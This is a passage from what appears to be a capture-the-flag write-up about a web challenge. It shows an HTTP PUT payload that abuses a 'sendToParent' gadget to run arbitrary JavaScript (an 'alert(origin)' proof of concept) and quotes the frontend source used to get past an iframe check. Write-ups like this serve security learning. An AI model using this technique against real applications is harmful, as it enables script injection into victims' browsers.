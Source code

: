 It works!

Therefore, we can call function `sendToParent` by setting key `type`'s value to be `functions.sendToParent`! Since we can control the gadget's `data`, we should be able to execute arbitrary JavaScript through the `message` event handler:

```http
PUT /board/3d75f548-b331-46ea-8687-e1a36b846d40 HTTP/1.1
Host: localhost:25054
Content-Type: application/json
Content-Length: 131

{"content":{"anything":{"type":"functions.sendToParent","executeFunction":true,"functionString":"alert(origin)","arguments":[""]}}}
```

Now, the `message` event handler's origin check will pass, because the event origin is the current window origin.

Well, not quite yet. We still have to overcome this check:

```javascript
function sendToParent(payload: any) {
  if (window.top === window) return;
  [...]
}
```

To make the current window is NOT the same as the top one, we can try to find a way to embed the window that calls function `sendToParent`.

Luckily, there's a gadget call `board`:

`frontend/app/utils.ts`:

```javascript
import {
  BoardGadget,
  ButtonGadget,
  ImageGadget,
  InputGadget,
  TextGadget,
} from "./classes/Gadgets";
[...]
export const gadget = {
  paragraph: TextGadget,
  text_input: InputGadget,
  button: ButtonGadget,
  image: ImageGadget,
  board: BoardGadget,
};
```

`frontend/app/classes/Gadgets.ts`:

```javascript
export class BoardGadget extends Gadget {
  public boardId!: string;

  constructor(data: any) {
    super();
    Object.assign(this, data);
  }
}
```
